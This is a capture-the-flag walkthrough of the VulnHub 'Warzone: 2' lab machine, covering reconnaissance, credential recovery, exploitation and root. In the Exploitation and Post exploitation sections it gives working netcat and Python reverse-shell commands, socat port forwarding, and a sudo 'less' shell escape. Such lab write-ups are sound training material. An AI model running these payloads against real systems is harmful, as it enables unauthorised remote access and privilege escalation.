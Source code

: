# Warzone: 2

[Machine](https://www.vulnhub.com/entry/warzone-2,598/ "https://www.vulnhub.com/entry/warzone-2,598/")

## Reconnaissance

### nmap

#### Ports scanning:
```
nmap -sS -T4 -p- 192.168.88.224 -oA ports
```
#### Services scanning:
```
nmap -sV -O -p21,22,1337 192.168.88.224 -oA services
```
### ftp

Anonymous login is allowed.

![ftp](screenshots/ftp.png)

From there we have three pictures.

username:

![username](ftp/username.PNG)

password:

![password](ftp/password.PNG)

token:

![token](ftp/token.PNG)

I searched for cipher on the username and password pictures. And I got [a flag semaphore](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore").

Decode the symbols from pictures and get a username and a password in `creds/`. I wrote it in upper case as wiki says.

### port 1337

1337 port seems to be a custom application.

I tried to take a banner:

![1337 conn](screenshots/1337_banner.png)

## Threat modeling

I think that it is enough to gather. Now we have the creds and have the 1337 port with login. I believe we easily will get remote access and that's all. 

By the way, need to write a script to create the token!

## Vulnerability analysis

### vsftpd

Not vulnerable.

### ssh

Not vulnerable.

### Misconfiguration of ftp

The main vulnerability is this. But I don't know about backend of 1337 port. Maybe here we can also have binary vulnerabilities.

## Exploitation

### Token

[Script to create a token](token.py)

Successfully got access with 'lower' credentials.

![access](screenshots/1337_access.png)

But we don't have a shell yet.

### Shell

Get shell is easy:

Local:
```
nc -lnvp 4444
```
Target:
```
nc 192.168.88.225 4444 -c /bin/sh
```
So, after the target connected to us, it will open a shell.

![shell](screenshots/shell.png)

```
python -c 'import pty;pty.spawn("/bin/bash")'
```
User - `www-data`.

## Post exploitation

### ssh flagman

In flagman home directory:

![warzone](screenshots/warzone.png)

Now we have a good shell and ssh access.

### Explore

`sudo -l` will show you admiral wrz2-app.py execute permission which is similar to the server from the previous machine Warzone 1
```
sudo -u admiral /usr/bin/python3 /home/admiral/warzone2-app/wrz2-app.py
```
Then you will see the PIN to console on a web server. It was not available on the previous server because you can see it only on the server-side.
Also, the app shows you that it is running on 127.0.0.1:5000 which is a local service.

### Port forwarding

I used socat as flagman:
```
socat TCP-LISTEN:8080, fork TCP:127.0.0.1:5000
```

Then go to attack-machine:8080 and you will get the available service.

### /console

In console, we can execute whatevere we want with python. So execute a reverse shell with open nc server:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.88.225",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
Got admiral.

### root

`sudo -l will` show you that you can execute less and see the content of warzone-rules.txt

with GTFOBins you can easily get a root:
```
sudo -u root /usr/bin/less /var/public/warzone-rules.txt
!/bin/sh
```

## Sources

### Flag semaphore

[wiki](https://en.wikipedia.org/wiki/Flag_semaphore "https://en.wikipedia.org/wiki/Flag_semaphore")

### Port forwarding with socat

[port forwarding](https://stackoverflow.com/questions/34791674/socat-port-forwarding-for-https "https://stackoverflow.com/questions/34791674/socat-port-forwarding-for-https")

### GTFOBins

[shell with less binary](https://gtfobins.github.io/gtfobins/less/#shell "https://gtfobins.github.io/gtfobins/less/#shell")
